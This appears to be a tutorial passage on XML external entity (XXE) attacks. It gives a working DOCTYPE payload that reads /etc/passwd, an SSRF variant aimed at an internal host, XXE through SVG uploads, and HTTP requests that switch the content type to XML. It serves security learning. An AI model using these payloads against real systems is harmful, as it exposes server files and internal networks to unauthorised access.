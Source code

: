 ```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

to exploit it you must create an entity using DOCTYPE.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

after the modified request has been sent. You have completed the exploitation!. You can observe the response request to see the output.

Example of XXE via SSRF

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

So as we have learned from SSRF. We can abuse SSRF via the function that leads to execution of the input. because the entity in XML is being executed, we can use URL (which is a normal attack vector for SSRF) to exploit SSRF in XML request.


**XXE attacks via file upload**

We can abuse XXE via SVG file images. Since SVG is practically XML, we can embed the entity to exploit the XXE. To see the output, you simply go to the image location. The output should display as the image!

**XXE attacks via modified content type**

If the web server allows XML request.

By default,

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

so if we want to try to exploit we can cahnge it to

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

Easy peasy!

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
